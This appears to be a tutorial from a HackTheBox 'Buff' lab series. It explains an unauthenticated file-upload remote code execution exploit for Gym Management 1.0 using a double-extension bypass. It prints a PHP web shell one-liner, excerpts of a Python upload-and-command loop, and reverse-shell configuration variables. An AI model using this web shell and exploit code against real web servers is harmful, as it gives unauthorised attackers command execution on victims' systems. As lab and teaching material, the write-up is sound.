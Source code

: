 # ExploitDev Journey #5 | Gym Management 1.0 unauthenticated RCE
Original Exploit: https://www.exploit-db.com/exploits/48506 <br>
Tutorial: N\\A

**Exploit name:** Gym Management 1.0 unauthenticated RCE  <br>
**CVE**: N\\A <br>
**Lab**: Buff - HackTheBox

### Description
There is an unrestricted image upload path within Gym management 1.0 web app that allows unauthenticated users to upload files. The functionality also suffer from a misconfiguration that allows as to upload PHP shells by using the [double extension file upload bypass](https://book.hacktricks.xyz/pentesting-web/file-upload).

<br>

### How it works
The path to upload files is `http://target.htb/upload.php?id=shell.php` and it's unrestricted, this allows anyone to upload files. But the bad thing is that there isn't enough restrictions of whitelisting/blacklisting against the type of files you can upload. I guess this is the path where admins can upload whatever they want so they don't really thought about protecting it, but leaving it unrestricted allows people to upload things, whether malicious or not. <br>
In order to upload a php file, all you have to do is to add two extensions to the file name, like this: `file_name.php.jpg`
Here the JPEG file extension is allowed but PHP isn't, but the application only reads the last extension which is `.jpg` and from there it assumes that your file is a harmless image, but when the file is stored on the server, it will be stored with the first extension which is `.php` and not `.jpg`.

<br>

### Writing the exploit
Writing the exploit is very easy but there is one little detail here, remember that in exploit development session of `CVE-2019-16113` I used a [PHP reverse shell from PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)?
Here we can't use that, we just can't upload it because that reverse shell only works on Linux systems. Look at these variables at the beginning of that shell:
```php
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

The `$shell` variable indicates that linux commands separated by semicolons are being used.

> `shell = '<?php echo shell_exec($_GET["rce"]); ?>'`

Here as you can see I am creating a GET parameter named `rce` and I am also using `echo` for printing and `shell_exec` for executing system commands. By uploading this shell, you can execute system commands from your browser like this:
<img src="https://i.ibb.co/tB1VqWb/buff1.png">

But I have automated all of these operations so you won't have to open your browser.
<br>
By now you already understand most of what's going on, given that you have followed the ExploitDev journey step by step. However I would still like to highlight something inside the try:except clause.

> `upload(target)`

Here is the part that I would like to explain (partially):
```py
try:
    upload = session.post(url=upload_path, files=file, data=data, verify=False, timeout=30)
    if upload.status_code != 200:
        sys.exit(f"Uploading {shell_name} failed, exiting.")
    else:
        print(f"Shell has been uploaded: {uploaded}")
        print(70 * '-')
        while True:
            try:
                params = {'rce': input("Shell> ")}
                command = session.get(url=uploaded, params=params, verify=False, timeout=30)
                print(command.text)
            except requests.exception.Timeout:
                sys.exit(f"[ - ] Timeout error, unable to connect to {target}")
except requests.exception.Timeout:
    sys.exit(f"[ - ] Timeout error, unable to connect to {target}")
```

The `while` statement and the block of code inside it are new topics. Remember that uploading a shell that's specific to one operating system often causes misery and failure but uploading a shell that's kind of universal and independent of the operating system always works. For example `shell_exec` function is independent of operating system running on the target and is just a function of PHP that works anywhere PHP is running.

I created an infinite while loop that allows you to interact with the shell and whenever you execute a system command, you send out a new request. Let's take a close look into `params` variable:
```py
params = {'rce': input("Shell> ")}
```

Earlier I explained that our `shell` variable contains PHP code that creates a parameter named RCE and uses `echo` and `shell_exec` to execute system commands and print their output. The way we use parameters in Python is just shown in the above code. `rce` is the name of your parameter, it's value is taken from keyboard input.
Take a look here one more time and you will understand:
```
http://10.129.112.165:8080/upload/oBWTPlSolx.php?rce=whoami
```

Instead of using the `input()` function, you can use plaintext as well but using `input()` especially with a string inside to prettify it makes it more convenient to use. After sending GET request along with the parameters, then you print out the results.

Here is how it looks like when executed:<br>
<img src="https://i.ibb.co/YbxwKm9/buff2.png">

Remember that we used `echo` which is a function in PHP used for printing data, here we print that inside the web application and grab the results with `print(command.text)`. <br>
Notice that `ls` is not a windows command and it doesn't return anything.


### Final thoughts
In this exploit development session you learned about using PHP shells that are kind of universal and work wherever PHP is running, they are independent of the operating system and they work most of the time. You also learned about beautifying the way you capture user's input to make it more convenient to use.

